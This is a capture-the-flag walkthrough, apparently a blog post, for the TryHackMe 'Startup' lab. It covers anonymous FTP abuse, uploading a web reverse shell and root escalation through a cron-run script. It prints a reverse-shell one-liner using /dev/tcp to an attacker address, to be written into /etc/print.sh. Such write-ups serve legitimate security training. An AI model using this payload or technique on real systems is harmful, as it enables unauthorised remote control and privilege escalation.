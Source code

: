 # Startup

***
![](https://tryhackme-images.s3.amazonaws.com/room-icons/98d1e206f2d58494b67a1a52c0f8d244.png)

## Difficulty = Easy

***

Running our nmap scan we have 3 ports opened -:

```bash
# Nmap 7.94 scan initiated Fri Oct 20 01:25:57 2023 as: nmap -p80,21,22 -sCV -T4 -v --min-rate=1000 -oN nmap.txt 10.10.102.105
Nmap scan report for 10.10.102.105
Host is up (0.26s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.9.75.133
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| drwxrwxrwx    2 65534    65534        4096 Nov 12  2020 ftp [NSE: writeable]
| -rw-r--r--    1 0        0          251631 Nov 12  2020 important.jpg
|_-rw-r--r--    1 0        0             208 Nov 12  2020 notice.txt
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 b9:a6:0b:84:1d:22:01:a4:01:30:48:43:61:2b:ab:94 (RSA)
|   256 ec:13:25:8c:18:20:36:e6:ce:91:0e:16:26:eb:a2:be (ECDSA)
|_  256 a2:ff:2a:72:81:aa:a2:9f:55:a4:dc:92:23:e6:b4:3f (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Maintenance
| http-methods: 
|_  Supported Methods: POST OPTIONS GET HEAD
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Oct 20 01:26:17 2023 -- 1 IP address (1 host up) scanned in 19.40 seconds
```





Enumerating `FTP`, we have anonymous login enabled 🤟



![](https://i.imgur.com/vFnDBy0.png)




We can therefore use this command to download all files on the server


```bash
$ wget -m --no-passive ftp://anonymous:anonymous@10.10.102.105
```


Checking the files the only thing that gives us important information is `notice.txt`, which gives us a username called, **Maya**.


![](https://i.imgur.com/sci7wME.png)


Navigating to port `80/HTTP` we have a prompt telling us **"we'll be online shortly"**


![](https://i.imgur.com/5KvZHlz.png)

Viewing **Page-Source** nothing seems interesting here also

![](https://i.imgur.com/dShkQ7w.png)

Running dir/file bruteforce, we found a directory called `/files`

![](https://i.imgur.com/Wd4nkAB.png)


Navigating to `/files` we can see that all what we found in the **FTP** directory is still here


![](https://i.imgur.com/naVQJ99.png)


Well, we forgot to check if we can put files in the FTP directory


![](https://i.imgur.com/Shtfjiq.png)


Nice we can put files, but it is directory specific !, Meaning we can not put files on the base folder, but we can put files in an already created folder called `FTP`

![](https://i.pinimg.com/originals/39/73/c8/3973c89b972c2bf387065fc702643270.gif)


Now let upload our reverse shell and navigate to the website


![](https://i.imgur.com/ZdXTYXA.png)


Nice, our reverse shell have been uploaded


![](https://i.imgur.com/1csTG8g.png)


Now start up your listener and get your reverse shell back


![](https://i.imgur.com/onBG5Zo.png)

Navigating to the base folder `/` we have a `recipe.txt` file

![](https://i.imgur.com/2GJfC0W.png)

well we now know the **secret spicy soup recipe**, you can go ahead and answer the question

![](https://i.imgur.com/zEYnUBs.png)


We also have an **incidents** folder, that contains a `suspicious.pcapng` file

![](https://i.imgur.com/SRvdhCO.png)

Transfer the file to our target system and upload it to `wireshark`



![](https://i.imgur.com/Ecf2cFU.png)

On **wireshark** right-click on a packet and select **Follow >> Tcp Stream**


![](https://i.imgur.com/bZ0xPE3.png)


Keep Increasing the **stream** till we find important information (Just check stream 7 😂)


![](https://i.imgur.com/akNaViG.png)


We successfully have a password


![](https://i.imgur.com/oILcFdJ.png)

We can then login as user **lennie**


![](https://i.imgur.com/yYTJA5D.png)

Navigating to **lennie's** home directory we have a `script` folder

![](https://i.imgur.com/QWjrG3g.png)



The script folder has a `planner.sh` file

![](https://i.imgur.com/mE0AYYO.png)

Concatenating the `planner.sh` file, it also calls another file under `/etc` called `print.sh`

![](https://i.imgur.com/Wmf4tcd.png)

Looks like the `/etc/print.sh` file belongs to **lennie** and the `planner.sh` file belongs to user **root**, we can therefore upload our reverse shell here and get root

![](https://i.imgur.com/5bOSiiG.png)


By adding this payload to `/etc/print.sh` and then starting up our listener we can get our reverse shell


```bash
/bin/sh -i >& /dev/tcp/10.9.75.133/4444 0>&1
```


![](https://i.imgur.com/ynDr4fP.png)


Then start up your reverse shell using `netcat` and you should be root

![](https://i.imgur.com/OPuK6GJ.png)




> **_Note :_** Generally i ran `pspy32s` in other to know that the **planner.sh** script was running as a cronjob



Have fun 😁😎




<button onclick="window.location.href='https://sec-fortress.github.io';">Back To Home螥</button>




